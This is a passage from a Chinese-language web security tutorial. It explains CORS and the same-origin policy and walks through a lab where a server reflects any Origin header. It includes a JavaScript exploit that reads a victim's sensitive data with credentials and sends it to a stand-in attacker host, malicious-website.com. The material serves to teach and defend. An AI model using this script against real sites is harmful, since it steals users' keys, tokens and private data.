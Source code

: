 如果应用程序允许在消息正文中包含XML的请求，并将正文内容解析为XML，那么只需将请求重新格式化为使用XML格式，就可以到达隐藏的XXE攻击面。 

# CORS

## 前置

1、简述：

跨源资源共享（CORS）是一种浏览器机制，它允许对位于给定域之外的资源进行受控访问。它扩展并增加了[同源策略](https://so.csdn.net/so/search?q=同源策略&spm=1001.2101.3001.7020)的灵活性（ 标准操作规程）.但如果网站的CORS策略配置和实施不当，也可能会导致跨域攻击。CORS无法抵御跨源攻击，如跨站点请求伪造 （CSRF）

2、同源策略

同源策略是一种限制性的跨源规范，它限制网站与源域之外的资源交互的能力。同源策略以应对潜在的恶意跨域交互，如一个网站窃取另一个网站的私人数据。它通常允许一个域向其他域发出请求，但不允许访问响应。 

3、放宽同源政策

同源政策的限制性很强，因此设计了各种方法来规避这些限制。许多网站与子域或第三方网站的交互方式需要完全跨源访问。使用跨来源资源共享（CORS）可以有控制地放宽同源政策

跨源资源共享协议使用一组HTTP头，这些头定义了受信任的Web源和相关属性，例如是否允许经过身份验证的访问。这些信息在浏览器和它试图访问的跨源网站之间的头交换中组合

## Lab1

### 前置

CORS配置问题导致的漏洞

服务器生成ACAO头从客户端指定的原始标头

1、一些应用程序需要提供对许多其他域的访问。维护允许的域列表需要不断的努力，任何错误都有可能破坏功能。因此，一些应用程序采取了有效地允许来自任何其他域的访问的简单途径

2、一种方法是从请求中阅读Origin头，并包含一个响应头，声明请求源是允许的

```
。例如，考虑接收以下请求的应用程序：
GET /sensitive-victim-data HTTP/1.1
Host: vulnerable-website.com
Origin: https://malicious-website.com
Cookie: sessionid=...
 
响应如下：
HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://malicious-website.com
Access-Control-Allow-Credentials: true
...
 
这些报头声明允许从请求域（malicious-website.com）进行访问，并且跨源请求可以包括Cookie（Access-Control-Allow-Credentials：true），因此将在会话中处理。
```

3、由于应用程序在 Access-Control-Allow-Origin 标头中反映任意来源，这意味着任何域都可以访问易受攻击域中的资源。如果响应包含任何敏感信息（如API密钥或CSRF令牌），可以通过在网站上放置以下脚本来检索此信息：

```
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://vulnerable-website.com/sensitive-victim-data',true);
req.withCredentials = true;
req.send();
 
function reqListener() {
   location='//malicious-website.com/log?key='+this.responseText;
};
```
